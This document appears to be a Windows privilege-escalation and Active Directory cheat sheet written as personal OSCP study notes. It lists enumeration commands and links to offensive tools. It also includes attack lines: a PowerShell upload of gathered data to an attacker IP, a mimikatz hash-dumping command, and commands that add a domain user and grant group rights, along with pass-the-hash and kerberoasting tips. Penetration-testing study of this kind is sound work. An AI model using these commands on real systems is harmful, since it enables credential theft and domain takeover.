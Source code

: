 # Windows PrivEsc 

**Step 1** 

Review PrivEsc Mind map

https://github.com/hxhBrofessor/PrivEsc-MindMap/blob/main/windows-mindMap.JPG 

**Step 2** 

Look around the file system!!! 

Check installed programs in `C:\Program Files` or `C:\Program Files (x86)`

**Step 3** 

Determine architecure
`systeminfo` 
or 
`$Env:PROCESSOR_ARCHITECTURE` 

*AMD64 for 64-bit and x86 for 32-bit*

**Step 4**
Run [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

**Step 5**
Run [adPEAS](https://github.com/61106960/adPEAS)

**Step 6**
Begin manual review if still no leads 

## Active Directory Methodology 
https://s0cm0nkey.gitbook.io/s0cm0nkeys-security-reference-guide/red-offensive/testing-methodology/active-directory

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md

### Mind set notes for OSCP
What users are on the domain? net users /domain
What groups are configured on the domain? net group /domain
Who are the administrators (domain admins?) net group "Domain Admins"
What SPNs are configured on the host? GetSPNs.py 

Kerberoasting - List out the SPNs on the domain and if there are any that are specifically calling to another host/port within the domain, could be kerberoastable.

Credentials in Memory - run mimikatz and see if any of the accounts you enumerated at first show up. Try cracking the NTLM hash, or passing the hash through something like psexec.py or evil-winrm.

## Basics 

[Manual Enum Guide](https://fuzzysecurity.com/tutorials/16.html)

[Password Attacks](https://medium.com/@kuwaitison/local-password-attack-and-credentials-theft-for-windows-linux-5764a1a25363)

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

`whoami /all` 

`whoami /groups` 

`whoami /priv` 

`net users` 

`net localgroup`

`netstat -ano` 

`dsacls "DC=htb,DC=local"` 

## Scheduled Tasks 

### generate file 
`schtasks /query /fo LIST /v > scheduled-task.txt`

### transfer off Windows
`powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.49.192/upload.php', 'scheduled-task.txt')` 

### Grep results on Kali
`grep -i "SYSTEM" scheduled-task.txt -B 5 -A 5` 

## Services 

`wmic service list brief` 

`tasklist /v /fi "username eq system` 

`sc query state= all | findstr "SERVICE_NAME:" >> Services.txt` 

`wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` 

## AlwaysInstallElevated 
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` 

## AD Commands to run

`ldapsearch -H ldap://<ip>:<port> -x -LLL -s sub -b "DC=<domain>,DC=local"` 

[Pass the Hash](https://cesidt.medium.com/pass-the-hash-techniques-92e46f28af89)

### Users
`net user`
`net user hacker password /add /domain` 

### Groups 
`net group "group name"`

`net group "Exchange Windows Permissions" /add account_name` 

## Passwords
### powershell recursive grep like search
`ls -R -Hidden -EA SilentlyContinue | select-string <search string>`

### Get password hashes from mimi. 
`lsadump:​:lsa /patch`

## Metasploit module for exploit suggestions
`post/multi/recon/local_exploit_suggester` 

## Tools to run
[WinPeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20230101)

[Watson for kernel exploit suggestions](https://github.com/rasta-mouse/Watson, https://0xdf.gitlab.io/2019/03/05/htb-devel.html)

[Bloodhound](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux)

[Powerview](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#ad-enumeration-with-powerview)

[Windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

[Sherlock](https://github.com/rasta-mouse/Sherlock)

[How to use Sherlock](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)

[JAWS][(ttps://github.com/411Hall/JAWS)
